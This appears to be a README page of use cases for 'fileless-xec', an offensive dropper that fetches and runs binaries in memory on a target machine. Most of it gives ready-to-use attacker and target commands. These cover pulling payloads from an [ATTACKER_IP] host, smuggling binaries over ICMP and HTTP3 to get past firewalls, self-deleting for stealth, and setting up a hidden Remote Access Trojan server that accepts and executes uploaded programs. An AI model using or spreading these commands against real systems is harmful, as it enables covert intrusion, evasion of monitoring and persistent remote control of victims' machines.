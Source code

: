 # `fileless-xec` use cases and examples


  - [`curl | sh` for binaries](#curl--sh-for-binaries)
  - [Execute binary with stdout/stdin](#execute-binary-with-stdoutstdin)
  - [Execute binary with arguments](#execute-binary-with-arguments)
  - [`fileless-xec` self remove](#fileless-xec-self-remove)
  - [Bypass network restriction with ICMP](#bypass-network-restriction-with-icmp)
  - [Bypass firewall with HTTP3](#bypass-firewall-with-http3)
  - ["Remote go": execute go binaries without having go installed locally](#remote-go-execute-go-binaries-without-having-go-installed-locally)
  - [Execute a shell script](#execute-a-shell-script)
  - [`fileless-xec` server mode](#fileless-xec-server-mode)
    - [RAT (Remote Access Trojan) scenarion](#rat-remote-access-trojan-scenario)
  - [`fileless-xec` on windows](#fileless-xec-on-windows)

## `curl | sh` for binaries

This is the basic use case for `fileless-xec`. It enables us to run a remote binary without dropping it on disk:
```shell
fileless-xec [binary_url]
```

## Execute binary with stdout/stdin

`fileless-xec` is able to execute binaries with stdout and stdin. There isn't any special configuration or flag to make it works. (also work with `--setsid`)

## Execute binary with arguments

You can also passed arguments to your binary:
```
fileless-xec [binary_url] -- [flags_and_values_for_the_binary]
```

## `fileless-xec` self remove

On linux, you could remove `fileless-xec`from disk during its execution. This a step further for stealthiness:
```
fileless-xec --self-remove [binary_url]
```

## Bypass network restriction with ICMP

For several reasons, it is sometimes stealther to use icmp protocol (not monitored, not blocked, etc ...). In this case, fileless-xec could be used as an ICMP server to retrieve binary content before execute it. 

*Product placement: To send the binary content you should use [`QueenSono`](https://github.com/ariary/QueenSono) (icmp tools for data transfer/exfiltration)*

On target machine, launch the icmp server:
```
fileless-xec icmpserver [listening_addr]
```

On attacker machine, base64 encode the binary, and send it using `qssender` (Queensono client):
```
cat [binary] | base64 > tmp
qssender send file -d 1 -l 0.0.0.0 -r [remote_listening_addr] -s 63000 tmp
rm tmp
```


## Bypass firewall with HTTP3

See [HTTP3 - README](https://github.com/ariary/fileless-xec#http3quic) for explanation about the benefit of HTTP3 (spoil: bypass fw):

On attacker machine, set up HTTP3 server:
```bash
./example/http3/genkey.sh
go build light-server.go
./light-server  # launch on port 6121
```

On target machine, tell that you want to use http3:
```
fileless-xec --http3 https://[attacker_ip]:6121/[binary_name]
```


## "Remote go": execute go binaries without having go installed locally

For a better/shorter solution see [this gist](https://gist.github.com/ariary/7bd45b954657ed841c5dc9937bd3dc26)

### Pre-requisites

* Attacker machine: 
  * go installed
* Target machine:
  * `fileless-xec`


If you want to run some go code on machine where go is not installed and you don't want to install it:

* For stealthiness reason (in a pentest, the less we install the better)
* For idleness or quickness reason

You will build your go on attacker machine, and use `fileless-xec` to execute it on target machine.

Of course, this use case is applicable for every program language that provides toolchains to make binaries (ex C/C++)


## Execute a shell script

If you are tired of running binaries.. and you want to run shell. This is a workaround example.

1. Transform your script in go code: (delete line `#!/bin/bash` and avoid `"`)

```
go build ./example/shell/generate.go
./generate myscript.sh
```

2. Compile it:

 ```
 go build nestedscript.go
 ```

3. Classicaly execute it on target
```
fileless-xec  [binary_url]
```

## `fileless-xec` server mode

This feature provide  another type of interaction between target and attacker machine:
target machine would have a server (upload binaries server) and attacker machine will send the binary ( trough http, http3, ...) to the server. Once the binary file received the target machine execute it as usual.

We change the connection direction between the 2 machines. As bind shell/reverse shell, it is useful to have both possibilities to adapt to the different possible network permissions



On target Launch the server:
```
fileless-xec server [port]
```

On Attacker machine send the binary to be executed:
* with curl: `curl -X POST -F "executable=@[BINARY_FILENAME]" http://[TARGET_IP:PORT]/upload`
* using client provide in example: 
```
#change url and port in ./example/client/client.go to the target machine ones
go build ./example/client/client.go
./client [BINARY_FILENAME]`
```

### RAT (Remote Access Trojan) scenario

fileless-xec is a dropper that make your program execution stealth. But we can go further and launch a stealth fileless-xec server (RAT), that will wait for program execution
*ie Use fileless-xec to launch a stealth fileless-xec server*
1. On attacker machine build/download fileless-xec and expose it trough HTTP server:
```
# in the same folder of fileless-xec binary
python3 -m http.server 11211
```

2. On target machine launch your stealth fileless-xec server w/ fileless-xec:
```
./fileless-xec --self-remove http://[ATTACKER_IP:PORT]/fileless-xec -- serve 11211
```

3. Now your fileless-xec is silently and patiently waiting for your program to execute it. If you want execute it, on attacker machine:
```
curl -X POST -F "executable=@[BINARY_FILENAME]" http://[TARGET_IP]:11211/upload
```

## `fileless-xec` on windows

You could alse use `fileless-xec` on windows.
Build `fileless-xec.exe` with Makefile:
```
make windows.build.fileless-xec
```

Usage is the same except that it is less stealth as binaries are on disk and you can't self remove `fileless-xec` while execution. Meanwhile the binary is immediatly deleted after execution
